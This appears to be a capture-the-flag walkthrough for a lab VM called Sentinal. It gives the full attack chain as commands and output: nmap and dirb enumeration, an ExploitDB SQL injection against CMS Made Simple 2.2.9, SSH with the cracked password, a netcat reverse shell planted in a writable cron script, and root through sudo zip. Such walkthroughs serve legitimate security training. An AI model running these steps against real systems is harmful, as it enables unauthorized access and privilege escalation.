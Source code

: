 # Exploitation Guide for Sentinal

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.150
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page. 
Checking /robots.txt and source code don't giveus anything. So let's start directory bruteforcing using dirb.

```
root@sentinal-VirtualBox:~# dirb http://192.168.83.150 -X .txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Sep 19 05:49:57 2020
URL_BASE: http://192.168.83.150/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://192.168.83.150/ ----
+ http://192.168.83.150/note.txt (CODE:200|SIZE:151)                                                                                                                                                                                      
-----------------
END_TIME: Sat Sep 19 05:49:59 2020
DOWNLOADED: 4612 - FOUND: 1
```

We find a hidden note.txt that says
```
Dear Developers,

Our website is moved to sentinal.com
Do login into the panel, configure the website and start building project.

Thank you
sys admin
```


It is running an virtual host of sentinal.com
So we have to add sentinal.com in /etc/hosts
```
kali@kali:~# nano /etc/hosts
192.168.83.150  sentinal.com
```

## Exploitation

On visiting sentinal.com in our browser, we find it is running `CMS Made Simple v2.2.9`.
Searching for an exploit, we find it is vulnerable to SQL injection.
```
Cmsms < 2.2.10 SQL Injection
https://www.exploit-db.com/exploits/46635
```
Before running the script make sure following packages are installed
```
	apt install python-pip
	pip install requests
	pip install setuptools
	pip install termcolor
```
Execute the script with a wordlist to bruteforce
```
python 46635.py -u http://sentinal.com -w /opt/rockyou.txt --crack 

[+] Salt for password found: 551c92a536111490
[+] Username found: juniordev
[+] Email found: juniordev@sentinal.com
[+] Password found: a25bb9e6782e7329c236d2538dd4f5ac
[+] Password cracked: passion
```
We get a username `juniordev` and a password `passion`.
Now we can use this creds to SSH login to the system
```
ssh juniordev@192.168.83.150
password: passion

juniordev@sentinal: whoami
juniordev
```
## User Escalation

Looking at the /etc/crontab we find there is a cronjob run by user sentinal every minute
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * sentinal /home/sentinal/Pictures/sentinal.sh
```


Going to /home/sentinal/Pictures and checking file permissions on senitnal.sh we find it is writable by user juniordev
```
juniordev@sentinal:/home/sentinal/Pictures$ ls -la
total 12
drwxr-xr-x  2 sentinal sentinal 4096 Sep 19 05:42 .
drwxr-xr-x 17 sentinal sentinal 4096 Sep 19 08:09 ..
-rwxrwxrw-  1 sentinal sentinal   76 Sep 19 08:12 sentinal.sh
```
Adding a reverse shell in sentinal.sh and getting a shell as user sentinal
```	
juniordev@sentinal:/home/sentinal/Pictures$ nano sentinal.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.2 920 >/tmp/f
```
```
kali@kali: nc -nvlp 920
listening on [any] 920 ...
192.168.83.150: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.150] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sentinal@sentinal: whoami
sentinal
```

## Root Escalation

User sentinal can run /bin/zip as sudo
```
sentinal@sentinal:~$ sudo -l
sudo -l
Matching Defaults entries for sentinal on sentinal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sentinal may run the following commands on sentinal:
    (ALL) NOPASSWD: /bin/zip
```
zip binary has an unzip-command argument that can be used to run arbitary commands on the system 
```
sudo /bin/zip /tmp/kunal.zip /tmp/ -T --unzip-command="sh -c /bin/bash"
```
Another way to exploit zip binary is using gtfobins
```
sudo /usr/bin/zip mktemp -T -TT 'bash #'
```
And we are root
#id
id
uid=0(root) gid=0(root) groups=0(root)
#whoami
whoami
root
	
